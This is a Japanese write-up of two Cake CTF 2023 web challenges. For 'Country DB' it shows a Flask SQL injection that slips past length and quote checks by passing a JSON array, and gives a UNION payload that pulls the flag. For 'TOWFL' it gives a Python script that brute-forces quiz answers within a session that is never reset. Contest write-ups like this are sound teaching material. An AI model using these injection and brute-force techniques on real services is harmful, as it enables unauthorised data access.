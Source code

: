 ```yaml
---
title: "Cake CTF 2023\nWriteup"
id: "cakectf-2023-writeup"
description: "Cake CTF 2023のWriteupです。"
author: "rikoteki"
createdAt: "2023-11-12"
isDraft: true
---
```


# Country DB [Web]

二文字の国コードをPOSTすると対応する国名を答えてくれるアプリケーションです。

![image](https://github.com/r1k0t3k1/note/assets/57973603/da4e8f13-994c-4b05-8b1a-dc89de0e31aa)

検索処理のリクエスト・レスポンスです。

![image](https://github.com/r1k0t3k1/note/assets/57973603/790d1256-5dbc-4f0f-b381-fae4d6e27025)

ソースコードが与えられるので確認すると、国コードをDBから検索する処理に明確なSQLインジェクション脆弱性があります。

![image](https://github.com/r1k0t3k1/note/assets/57973603/efdcebb1-a779-4167-a97b-5794fcbed8f0)

<details>
  <summary>ソースコード</summary>

```python
#!/usr/bin/env python3
import flask
import sqlite3

app = flask.Flask(__name__)

def db_search(code):
    with sqlite3.connect('database.db') as conn:
        cur = conn.cursor()
        cur.execute(f"SELECT name FROM country WHERE code=UPPER('{code}')")
        found = cur.fetchone()
    return None if found is None else found[0]

@app.route('/')
def index():
    return flask.render_template("index.html")

@app.route('/api/search', methods=['POST'])
def api_search():
    req = flask.request.get_json()
    if 'code' not in req:
        flask.abort(400, "Empty country code")

    code = req['code']
    if len(code) != 2 or "'" in code:
        flask.abort(400, "Invalid country code")

    name = db_search(code)
    if name is None:
        flask.abort(404, "No such country")

    return {'name': name}

if __name__ == '__main__':
    app.run(debug=True)

```
</details>

ただし、`code`に対して以下の条件が課されています。

- `len(code)`が2であること
- `'`が含まれていないこと

![image](https://github.com/r1k0t3k1/note/assets/57973603/8d944b98-553a-4107-84e8-438a215ef80d)


そのため、シンプルなSQLインジェクションは不可能です。

ただし、上記条件のチェックの前に`code`が文字列であることの確認がされていないため、オブジェクトを渡すことでチェックの回避が可能です。

まず、`len(code) == 2`の回避ですが、これは2要素の配列を渡すことで回避が可能です。

```json
{
  "code":[
    "",
    ""
  ]
}
```

あとは配列の1要素目にいつも通りのペイロードを渡せば　フラグが得られます。

最終的なペイロードは以下になりました。

```json
{
  "code":[
    "') union select flag from flag-- ",
    ""
  ]
}
```

![image](https://github.com/r1k0t3k1/note/assets/57973603/0229a448-aaeb-4ed4-a423-d8abb7432b7c)


# TOWFL [Web]

クイズに答えていって最終的にスコアが100ならフラグが表示されるようなアプリケーションです。

![image](https://github.com/r1k0t3k1/note/assets/57973603/c9e24e72-87e4-42da-8551-f77f27bb4ce6)

ただし、問題文や選択肢の文章は人間には理解できない言語で構成されています。

![image](https://github.com/r1k0t3k1/note/assets/57973603/18891d07-da87-45c7-b522-0fa31ac069e9)

ソースコードが与えられるので処理内容を確認します。

<details>
<summary>ソースコード</summary>

```python
#!/usr/bin/env python3
import flask
import json
import lorem
import os
import random
import redis

REDIS_HOST = os.getenv("REDIS_HOST", "redis")
REDIS_PORT = int(os.getenv("REDIS_PORT", "6379"))

app = flask.Flask(__name__)
app.secret_key = os.urandom(16)

@app.route("/")
def index():
    return flask.render_template("index.html")

@app.route("/api/start", methods=['POST'])
def api_start():
    if 'eid' in flask.session:
        eid = flask.session['eid']
    else:
        eid = flask.session['eid'] = os.urandom(32).hex()

    # Create new challenge set
    db().set(eid, json.dumps([new_challenge() for _ in range(10)]))
    return {'status': 'ok'}

@app.route("/api/question/<int:qid>", methods=['GET'])
def api_get_question(qid: int):
    if qid <= 0 or qid > 10:
        return {'status': 'error', 'reason': 'Invalid parameter.'}
    elif 'eid' not in flask.session:
        return {'status': 'error', 'reason': 'Exam has not started yet.'}

    # Send challenge information without answers
    chall = json.loads(db().get(flask.session['eid']))[qid-1]
    del chall['answers']
    del chall['results']
    return {'status': 'ok', 'data': chall}

@app.route("/api/submit", methods=['POST'])
def api_submit():
    if 'eid' not in flask.session:
        return {'status': 'error', 'reason': 'Exam has not started yet.'}

    try:
        answers = flask.request.get_json()
    except:
        return {'status': 'error', 'reason': 'Invalid request.'}

    # Get answers
    eid = flask.session['eid']
    challs = json.loads(db().get(eid))
    if not isinstance(answers, list) \
       or len(answers) != len(challs):
        return {'status': 'error', 'reason': 'Invalid request.'}

    # Check answers
    for i in range(len(answers)):
        if not isinstance(answers[i], list) \
           or len(answers[i]) != len(challs[i]['answers']):
            return {'status': 'error', 'reason': 'Invalid request.'}

        for j in range(len(answers[i])):
            challs[i]['results'][j] = answers[i][j] == challs[i]['answers'][j]

    # Store information with results
    db().set(eid, json.dumps(challs))
    return {'status': 'ok'}

@app.route("/api/score", methods=['GET'])
def api_score():
    if 'eid' not in flask.session:
        return {'status': 'error', 'reason': 'Exam has not started yet.'}

    # Calculate score
    challs = json.loads(db().get(flask.session['eid']))
    score = 0
    for chall in challs:
        for result in chall['results']:
            if result is True:
                score += 1

    # Is he/she worth giving the flag?
    if score == 100:
        flag = os.getenv("FLAG")
    else:
        flag = "Get perfect score for flag"

    # Prevent reply attack
    flask.session.clear()

    return {'status': 'ok', 'data': {'score': score, 'flag': flag}}


def new_challenge():
    """Create new questions for a passage"""
    p = '\n'.join([lorem.paragraph() for _ in range(random.randint(5, 15))])
    qs, ans, res = [], [], []
    for _ in range(10):
        q = lorem.sentence().replace(".", "?")
        op = [lorem.sentence() for _ in range(4)]
        qs.append({'question': q, 'options': op})
        ans.append(random.randrange(0, 4))
        res.append(False)
    return {'passage': p, 'questions': qs, 'answers': ans, 'results': res}

def db():
    """Get connection to DB"""
    if getattr(flask.g, '_redis', None) is None:
        flask.g._redis = redis.Redis(host=REDIS_HOST, port=REDIS_PORT, db=0)
    return flask.g._redis

if __name__ == '__main__':
    app.run()
```

</details>

処理の流れとしては

- `/api/start`で試験セッションを発行
- `/api/submit`で答案提出
- `/api/score`で結果確認、ここでスコアが100ならフラグ表示

となっています。

ここで気になったのが発行されたセッションを破棄する処理が`/api/score`を呼ばれるまで走らないということです。

かつ、回答数の制限も無いようなので一度試験を開始して発行されたセッションで総当たりすることで100点を得ることができます。

- `/api/start`で試験セッションを発行
- `/api/submit`でスコアが100になるまで総当たり
- `/api/score`でフラグ取得

あとはスクリプトを書くだけです。

<details>
  <summary>solver.py</summary>

```python
import requests
import sys

answers = [[None for j in range(10)] for i in range(10)]

cookie = {"Cookie": "session=.eJwFwYsNwCAIBcBdmAAMP7sN-jBxhqa79-6lvqCHJiMYZtvbp2YoVoUGxNPLWmKNnGckDgO8bfXWZpUKrhEq9P34IRRG.ZU8yWg.PIv8BjWOiTBYx3PXh0nykpuS2v4"}

SCORE_UPDATE_URL = "http://towfl.2023.cakectf.com:8888/api/submit"
RESULT_URL = "http://towfl.2023.cakectf.com:8888/api/score"

score = 0

for i in range(0,10):
  for j in range(0,10):
    for k in range(0,4):
      answers[i][j] = k
      res1 = requests.post(
        SCORE_UPDATE_URL,
        json=answers,
        headers=cookie,
        proxies={"http":"http://localhost:8080", "https":"http://localhost:8080"})
      if res1.status_code == 200:
          res2 = requests.get(RESULT_URL, headers=cookie)
          json = res2.json()
          if json["data"]["flag"] != "Get perfect score for flag":
              print(json)
              sys.exit(0)
          if json["data"]["score"] > score:
              score = json["data"]["score"]
              break
```

</details>

スクリプトを実行してしばらく待つとフラグが得られます。

![image](https://github.com/r1k0t3k1/note/assets/57973603/34625b3b-2d05-4a45-aec1-0bd6f358e098)


